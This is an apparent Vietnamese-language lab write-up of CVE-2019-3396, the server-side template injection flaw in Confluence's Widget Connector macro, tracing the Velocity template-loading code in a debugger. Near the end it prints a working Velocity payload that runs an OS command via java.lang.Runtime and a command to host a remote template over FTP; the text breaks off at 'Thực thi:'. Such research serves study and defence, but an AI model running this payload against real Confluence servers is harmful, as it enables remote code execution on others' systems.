

# CVE-2019-3396

### 🔎 Thông tin chính:

- **Sản phẩm ảnh hưởng**: Confluence Server & Data Center
    
- **Phiên bản bị ảnh hưởng**: từ **6.0.0 đến 6.15.4**
    
- **Mức độ nghiêm trọng**: Critical (CVSS ~9.8)
    
- **Nguyên nhân**:
    
    - Confluence có plugin **Widget Connector** (dùng để nhúng video, nội dung ngoài như YouTube, Vimeo...).
        
    - Chức năng này **không kiểm soát đúng input từ người dùng**, dẫn đến **Server-Side Template Injection (SSTI)**.
        
    - Kẻ tấn công có thể gửi payload độc hại → Confluence render bằng Velocity template engine → thực thi code trên server.

# 1. Cài đặt và khởi động trang web 

- Cài đặt các phiên bản bị lỗi ví dụ 6.9.0:

```js
https://www.atlassian.com/software/confluence/downloads/binary/atlassian-confluence-6.9.0.zip
```

- Thực hiện các bước set up theo hướng dẫn 

```js
https://nguyendt.hashnode.dev/confluence-cve-2019-3396
```

- Sau khi cài đặt thành công chúng ta sẽ tìm ra được giao diện 


# 2. Thực hiện tìm kiếm vị trí bị lỗi và debug 

### 2.1 Tìm kiếm vị trí bị lỗi

- Theo như POC thì chức năng lỗi nằm trong phần **Widget Connector** (dùng để nhúng video, nội dung ngoài như YouTube, Vimeo...) 
- Thực hiện dò tìm chứ năng đó:

1. Hãy cọn vào phần **Other macros**


2. Thực hiện tìm kiếm công cụ phân giải là **Widget Connector**


3. Nhập link và điền các thông tin yêu cầu vào sau đó chọn Preview


### 2.2 Set up để Debug

- Vì mô tả có đề cập đến `Widget Connector` nên ta thử search trong folder source của confluence


- Thực hiện đọc file **.jar** bằng **Intellij IDEA**
- Đặt vị trí **Breakpoint** ở những vị trí sử lí phân giải đường link và thực hiện quá trình Debug
### **Tiến hành debug**

- Tiến hành Debug và set **breakpoint** tại `com.atlassian.confluence.extra.widgetconnector.WidgetMacro.class`
- Ở đây ta thấy được các thông số 
- Gọi đến class `DefaultRenderManager.class`


- Tại đây dùng hàm `getEmbeddedHtml()`
- **Trả về đoạn mã HTML để nhúng (embed) nội dung bên ngoài** (video, widget, tài liệu…) dựa trên một URL mà người dùng chèn vào trang Confluence
- Từ đó gọi đến hàm **YoutubeRenderer**


- Vào class `YoutubeRenderer`
- Tại hàm này **getEmbeddedHtml(String url, Map<String, String> params)**
- **`url`** → link YouTube gốc mà người dùng nhập 
- **`params`** → một map chứa các tham số cấu hình cho việc render (ví dụ: chiều rộng, chiều cao, template dùng để render,…).


- Tiếp tục gọi đến `getEmbedUrl()`, `setDefaultParam()` và `DefaultVelocityRenderService.render()`
- Tập chung vào `setDefaultParam()`


- Nếu chưa có `_template` → gán template mặc định là `youtube.vm`.
=> Có thể tự thêm `_template` vào chương trình

- Tiếp theo vào `DefaultVelocityRenderService.render()` 

1. **Mục đích hàm**
    
    - Nhận `url` + các tham số `params`.
        
    - Dùng template Velocity (`.vm`) để render thành HTML nhúng (iframe, embed, …).
        
2.  **Xác định template**
    
    - Nếu `params` có `_template` → dùng template đó.
        
    - Nếu không → dùng mặc định `embed.vm`.

3. Tạo context mặc định bằng `MacroUtils.defaultVelocityContext()`.
    
- Đưa toàn bộ tham số từ `params` vào context:
    
    - Nếu key = `tweetHtml` → giữ nguyên HTML.
        
    - Ngược lại → encode an toàn bằng `GeneralUtil.htmlEncode()`.
        
- Thêm `urlHtml`, `width`, `height` vào context (nếu trống thì gán mặc định 400 × 300).


- Gọi đến `VelocityUtils.getRenderedTemplate()`



- Bây giờ chúng ta sẽ chuyển sang class VelocityUtils
- Ở phần trên gọi đến `getRenderedTemplate` và `getRenderedTemplateWithoutSwallowingErrors()`


- Sau đó tiếp tục gọi đến `getTemplate()`


- Ở đây `templateName` chính là `_template` bên trên.

- Tiếp tục sau đó gọi đến `VelocityEngine.Template()`


- Trong class `VelocityEngine` thì tiếp tục gọi đến `RunimeInstance.getTemplate()`


**`RuntimeInstance` (Velocity core)**  
Đây là “trái tim” của Velocity Engine. Nó lo việc:

- Khởi tạo engine (`init`)
    
- Quản lý cấu hình, macro, parser, directives, event handlers…
    
- Và đặc biệt: **quản lý resource thông qua `ResourceManager`**

→ Nghĩa là `RuntimeInstance` không tự load resource, mà **ủy quyền cho `resourceManager`**.

- Sau đó gọi đến `CompatibleVelocityResourceManager.getResource()`


**`ConfigurableResourceManager` (Confluence custom)**  
Đây là một **implementation của interface `ResourceManager`**.  
Nó chịu trách nhiệm:

- Quản lý **resource loaders** (file loader, classpath loader, URL loader…).
    
- Quản lý **globalCache** (cache template theo `resourceKey`).
    
- Thực hiện load/refresh template (file `.vm`) khi được `RuntimeInstance` yêu cầu.


```js
try {
    this.refreshResource(resource, encoding);
} catch (ResourceNotFoundException var7) {
    this.globalCache.remove(resourceKey);
    return this.getResource(resourceName, resourceType, encoding);
}
```

- Khi resource có trong cache, nó **không trả ngay**, mà sẽ gọi `refreshResource(...)`.
    
- `refreshResource` sẽ so sánh **lastModified time** trên disk so với trong cache.
    
- Nếu file đã đổi → resource trong cache sẽ bị invalid → load lại từ disk → cập nhật lại cache.
    

👉 Do đó bạn **không cần đổi `resourceKey` bằng tay**. Cơ chế refresh đã đảm bảo khi template thay đổi, cache cũng được update.

Thực hiện thêm `_template` và gửi lại request


- Ta thấy danh sách **các `ResourceLoader` instance** (đối tượng đã được khởi tạo) trong Velocity


- Ở đây chúng ta chỉ quan tâm đến `FileResourceLoader` và `ClasspathResourceLoader`

#### 1. Đối với `FileResourceLoader`

Gọi `StringUtils.normalizePath()` để chặn path traversal


- Nội dung `normalizePath` như hình


- Thử đọc `/WEB-INF/web.xml`tệp và bạn có thể thấy rằng tệp đã được tải thành công.


- Nhưng vẫn không nhảy ra được khỏi thư mục Confluence vì bị chặn `/../`
- Tiếp tục kiểm tra `ClasspathResourceLoader`
#### 2. ClasspathResourceLoader


- Theo dõi đến `ClassUtils.getResourceAsStream`


- Nó gọi đến `findResource()` của `/org/apache/catalina/loader/WebappClassLoaderBase.class`


-  Tiếp tục gọi đến `super.findResource()` trả về URL, tức là đối tượng có thể lấy được.


- Gọi đến `url.openStream()`để lấy dữ liệu


- Cuối cùng đưa dữ liệu vào kết xuất Velocity.


- Nếu trong các case thực tế không biết đường dẫn cụ thể thì chúng ta cho thể tận dụng scheme file của java để lấy ra list các thư mục 


#### Có outbound 

**Payload thực hiện**

```js
#set ($exp="test")
#set ($runtime=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null))
#set ($process=$runtime.exec("id"))
#set ($input=$process.getInputStream())
#set ($sc=$exp.getClass().forName("java.util.Scanner"))
#set ($constructor=$sc.getDeclaredConstructor($input.getClass().forName("java.io.InputStream")))
#set ($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if ($scan.hasNext())
  $scan.next()
#end
```

- Gọi `$runtime.exec("id")` → chạy lệnh hệ điều hành `"id"` trên Ubuntu.
- Tiến hành mở một dịch vụ FTP bằng lệnh:

```js
python3 -m pyftpdlib -p 2005
```


Thực thi:


